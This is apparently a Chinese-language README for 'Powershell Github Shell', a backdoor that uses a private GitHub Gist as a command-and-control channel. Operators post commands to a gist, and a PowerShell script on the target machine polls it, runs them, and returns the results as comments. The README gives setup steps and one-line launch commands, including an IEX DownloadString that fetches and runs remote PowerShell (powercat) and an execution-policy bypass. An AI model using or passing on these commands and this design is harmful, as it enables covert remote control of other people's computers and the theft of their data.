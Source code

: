 #Powershell Github Shell
	Author:zshell
	Blog:http://www.0x7c.com
	Github:https://github.com/zlocal/Powershell-Github-Shell
	Demo Result Gist:https://gist.github.com/zlocal/1d449f3c195531c8cafbebfe808ea46e

使用方法：</br>
1，创建github账户，访问https://github.com/settings/tokens/new，选中 gist   Create gists ，创建访问Gists的token.</br>
2, 访问 https://gist.github.com/ ，创建一个Gist，属性最好为private,只有自己能访问查看结果，名称为cmd.例：</br>
为了展示，我设置了public https://gist.github.com/zlocal/1d449f3c195531c8cafbebfe808ea46e
		Command:"time /T"	//javascript
		ReadFile:"c:/windows/temp/1.txt" 	//javascript
		WriteFile:"http://www.github.com/raw/1.zip c:/wnidows/temp/2.txt"	//javascript
		Powershell:"Get-Process | Out-String"	//javascript
		Command:"whoami"	//javascript
其中
	Command后是想要执行的cmd命令，功能已测试OK</br>
	ReadFile是上传目标机器上的文件到Github，暂未实现</br>
	WriteFile下载文件到目标机器，暂未实现</br></br>
	Powershell后是可以执行的Powershell指令，暂未实现</br>

	3, 修改Powershell脚本的头部配置信息
		$gistsUser="gitusername";		# github的用户名
		$gistsApiToken="gittoken";		# 上步中得到的token ，例eed4239e439034a92fc4cbe0fbd2ca906999a9f1
		$checkTime=60;				# 每次获取命令结果需要等待的时间，秒为单位

	4, 使powershell在目标机器上执行
		Powershell执行方法
		一句话远程加载 
		powershell IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1')	//powershell

		一句话本地加载
		powershell IEX ([System.IO.File]::readAllText('PowershellGitShell.ps1'));	//powershell

		一句话文件执行
		powershell -executionPolicy bypass -File "c:/test/PowershellGitShell.ps1"	//powershell

	5，可以修改cmd gist的内容，在$checkTime秒后刷新网页，结果会在评论中。结果需要使用URL DECODE解码。

